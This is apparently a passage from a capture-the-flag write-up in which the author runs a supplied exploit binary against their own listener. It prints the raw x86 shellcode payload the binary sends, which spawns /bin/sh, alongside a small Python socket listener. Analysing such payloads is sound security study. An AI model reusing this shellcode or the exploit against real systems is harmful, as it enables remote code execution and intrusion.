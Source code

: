 ```
```

We can now run the throw binary against our server:

```
./throw xx.xxx.xxx.xx 80
$<5>[$<2>+] Opening connection to xx.xxx.xxx.xx on port 80: Done
Sending sploit...
```

On our listener, we see:

```
Connected by ('152.14.93.208', 4115)
b'\xebUAAAAAAAAAAAAAAAAAAAAAAAAAA\xc0\xc7\xff\xff[\x8ds\x081\xc9\x83\xc1\x041.\x83\xc6\x04\xe2\xf9S\xba\x10\x00\x00\x00\x8dK\x08\xbb\x01\x00\x00\x00\xb8\x04\x00\x00\x00\xcd\x80[1\xc9QS\x89\xe11\xd2\xb8\x0b\x00\x00\x00\xcd\x80\xeb\xfe\xe8\xc4\xff\xff\xff/bin/sh\x005675e1F8dAd59C5C\n'
```

From the looks of it, it's sending a payload to exploit something, followed by /bin/sh and a weird string to spawn a shell. We'll send back some random data to see what it gives us:

```
#!/usr/bin/env python3

import socket

HOST = ''  # Standard loopback interface address (localhost)
PORT = 80       # Port to listen on (non-privileged ports are > 1023)

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((HOST, PORT))
    s.listen()
    conn, addr = s.accept()
    with conn:
        print('Connected by', addr)
        while True:
            data = conn.recv(1024)
            print(data)
            if not data:
                break
            conn.sendall(b'testtesttesttesttest')
```

This time, we see a different string after /bin/sh on our listener, but what's really interesting is what the throw binary says now:

Listener:

```
Connected by ('152.14.93.208', 19582)
b'\xebUAAAAAAAAAAAAAAAAAAAAAAAAAA\xc0\xc7\xff\xff[\x8ds\x081\xc9\x83\xc1\x041.\x83\xc6\x04\xe2\xf9S\xba\x10\x00\x00\x00\x8dK\x08\xbb\x01\x00\x00\x00\xb8\x04\x00\x00\x00\xcd\x80[1\xc9QS\x89\xe11\xd2\xb8\x0b\x00\x00\x00\xcd\x80\xeb\xfe\xe8\xc4\xff\xff\xff/bin/sh\x00CFeEc30B42a47b51\n'
b''
```
